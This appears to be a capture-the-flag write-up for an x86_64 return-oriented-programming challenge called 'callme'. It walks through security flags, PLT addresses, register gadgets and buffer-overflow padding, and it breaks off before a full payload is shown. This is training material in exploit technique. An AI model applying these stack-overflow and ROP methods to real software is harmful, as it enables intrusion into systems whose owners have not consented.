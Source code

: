 # callme x86 64
According to the descrption, we need to call the functions callme_one, callme_two, callme_three with three arguments in specific order.

Hint also tells that we need to call the functions through plt(procedure linkage table).

Check the security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, the we are able to use ret2function or rop.

Use ghidra to track the assembly code, and we will find that the program does not call functions callme_one, callme_two, callme_three. 

These functions are included from shared library, and their function address is stored in the plt table. We can find their function address in plt.
```
gdb-peda$ plt
...
Breakpoint 1 at 0x400720 (callme_one@plt)
Breakpoint 2 at 0x4006f0 (callme_three@plt)
Breakpoint 3 at 0x400740 (callme_two@plt)
```
We obtain three function address, before calling them we need to set the arguments properly.

Hint has told us that these functions need three parameters, which are 0xdeadbeefdeadbeef, 0xcafebabecafebabe, and 0xd00df00dd00df00d.

x86_64 calling convention tells us that the arguments are stored in the registers rdi, rsi, rdx, ...... 

Therefore, we need to set three parameters in rdi, rsi, rdx accordingly.

We find the suitable gadgets in program.
```
...
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
0x000000000040093e : pop rdx ; ret
...
```
We use thers gadgets to set the arguments, and then jump to the plt function address, and repeated 3 times.
```

```
Now, we can build our payload.

First, same as problems before, the overflow buffer is 32 bytes, and rbp register 8 bytes.
```
'A' * 32 + 'A' * 8
```



